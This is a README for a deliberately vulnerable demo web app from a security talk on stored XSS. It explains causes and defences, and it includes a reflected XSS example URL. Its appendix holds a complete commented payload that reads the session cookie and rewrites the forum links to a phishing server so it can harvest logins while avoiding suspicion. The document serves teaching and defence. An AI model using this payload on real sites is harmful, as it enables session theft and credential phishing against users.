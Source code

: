 # xss-demo-aug-2019
A (deliberately!) broken site to demonstrate the power of XSS exploitation.

# Stored XSS vulnerabilities
## Presentation structure
1. Definition of stored and reflected XSS attacks
1. Demo of XSS in a web app
1. Explanation of how XSS happened in the demo
1. Steps developers can take to protect against XSS
1. Wider implications and dangers of XSS

## Definition of XSS
### Reflected
Reflected XSS occurs when an attacker crafts a URL containing a parameter or path that will be displayed in a target browser. The attacker usually tricks a target user into clicking on this malicious URL, and can then gain access to the user's browser through a script within the URL. and example of this could be the URL:

`https://www.example.com?search=<script>alert("boo!");</script>cat%20pictures`
### Stored
Stored XSS happens when an attacker can directly upload HTML to a site through a user input field whose contents will be displayed elsewhere on the site, such as a username field. If the input is not escaped by the server, there is a risk it will be rendered as HTML, which means outside scripts can be injected into the page.

_This demo focuses solely on stored XSS attacks_

## Demonstration
The demo app has three fields (of which one has been left vulnerable) where users can input information which will be displayed elsewhere on the site:
- Username
- Post titles
- Post bodies

## How XSS happened in the demo app
Generally speaking, the cause of stored XSS is failure to escape user input. In the case of this app, two lines of code were responsible for the vulnerability:
1. Neglecting to user the `xss` node module to sanitise the input: [/routes/index.js#L59](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/routes/index.js#L59)
1. Using the wrong number of braces in the handlebars template, causing the template to render the variable without escaping the value: [/views/forum_dashboard.hbs#L18](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/views/forum_dashboard.hbs#L18)

## How developers can protect against XSS
As the above section would suggest, the way to avoid XSS is to ensure all user input is escaped before it reaches the browser so there is no possibility it will be rendered as HTML. However in practice this can be easier said than done, particularly in a complex web app.

Developers can introduce coding standards such as prefixing their variable names with whether they are safe or unsafe, (example detailed in this article ["Making wrong code look wrong"](https://www.joelonsoftware.com/2005/05/11/making-wrong-code-look-wrong/)) to reduce the likelihood that unescaped text will make it to the browser. Good code review practices can help maintain these coding standards, too.

There is also the standard solution of not trying to roll your own security: if you can rely on trusted frameworks which you keep up to date, you can mitigate some amount of risk. For example: the templating engine I used to make this site is hard to slip XSS by, as the default behaviour is to always escape values it is asked to display.

## Wider implications and dangers of XSS
When a potential XSS vulnerability is found during a pentest, we tend to add a simple script such as `alert(1);`. The truth is, though, that some incredibly malicious code can be contained within the script tags.

Any information viewable by the browser, such as session and CSRF protection tokens, are accessible any script running on the page. This means if an attacker can inject their own script into the page, they will be able to steal sessions and perform actions masquerading as legitimate users. All user accountability goes out of the window - how can you know if it really is an admin going rogue and deleting half the site, or if they went to an infected page and had their session stolen?

I would argue that even data which is supposed to be inaccessible to the browser, such as passwords, is retrievable with the right script. A version of the annotated script below changes the hyperlinks on a page to send people to the site of an attacker's choice... for example, a phishing site made to look like an 'oops, please log back in page' from the original site.

It's bad enough when you consider that a phishing attack could hand user credentials over to malicious actors, but when taken into account how many people re-use passwords between accounts, it's horrifying how much damage could be done with this relatively simple script.

## Appendix: Commented phishing script from demo

<script type = "text/javascript">
$(document).ready(function () {
  function getCookie(n) {
    // returns the value of a named cookie
    var name = n + "=";
    var decodedCookie = decodeURIComponent(document.cookie);
    var ca = decodedCookie.split(";");
    for (var i = 0; i < ca.length; i++) {
      var c = ca[i];
      while (c.charAt(0) == " ") {
        c = c.substring(1);
      }
      if (c.indexOf(name) == 0) {
        return c.substring(name.length, c.length);
      }
    }
    return "";
  }

  function setCookie() {
    // Make a new cookie called 'h' (for 'harvested') which pulls the first, middle and last chars from the session ID
    // This will be used to check if the session ID has been updated and needs to be stored
    // using 3 check chars is less suspicious than storing the entire session ID
    var sid = getCookie("connect.sid");
    document.cookie = "h="+ sid.charAt(0) + sid.charAt(sid.length - 1) + sid.charAt((sid.length -1)/2) + ";expires=session;path=/";
  }

  function isNewSession() {
    // Check the value of 'h' against the current session ID
    var sid = getCookie("connect.sid");
    var h = getCookie("h");
    if (h === sid.charAt(0) + sid.charAt(sid.length - 1) + sid.charAt((sid.length -1)/2)) {
      return false;
    } else {
      return true;
    }
  }

  var current_page_path = window.location.pathname;
  // If the session ID is one we've seen before, don't replace the hyperlinks.
  // That way the redirect to the 'login' page looks like a one-off error to
  // the user, and we don't collect the same session ID more than once
  if (!current_page_path.includes("/post") && isNewSession()) {
    // Only run the script on the forum home page, leave individual post pages
    // alone
    $("td > a").each(function(i) {
      console.log(document.cookie);
      var original_path = $(this).attr("href");
      var hostname = window.location.hostname;
      // Replace all links in the table of posts with links to the phishing site
      // Pass along the ID of the post the user was trying to see (so we can
      // direct them back to it after 'logging them back in')
      var new_href = "http://" + hostname + ":1337" + original_path;
      $(this).prop("href", new_href);
    });
    setCookie();
  }
});
// Don't forget to add a normal-looking title so people don't get suspicious!
</script>Important announcement
